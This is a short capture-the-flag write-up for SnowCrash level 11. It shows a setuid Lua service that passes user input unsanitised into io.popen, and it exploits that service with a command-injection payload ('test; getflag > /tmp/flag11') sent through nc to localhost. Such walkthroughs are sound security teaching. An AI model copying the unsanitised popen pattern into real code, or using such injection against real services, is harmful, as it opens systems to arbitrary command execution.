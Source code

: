 ## 1. Connect to level11:

```bash
level10@SnowCrash:~$ su level11
password: *use previously found flag*
```

## 2. See existing files:

```bash
level11@SnowCrash:~$ ls -l
    -rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

```bash
level11@SnowCrash:~$ cat level11.lua
```

The content of `level11.lua` shows:

That the server runs on localhost, port 5151
``` bash
local server = assert(socket.bind("127.0.0.1", 5151))
```

That the command `echo [pass] | sha1sum` is executed
```bash
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

## 3. Use a command injection to find the flag:
```bash
level11@SnowCrash:~$ echo 'test; getflag > /tmp/flag11' | nc localhost 5151
    Password: Erf nope..

level11@SnowCrash:~$ cat /tmp/flag11
```
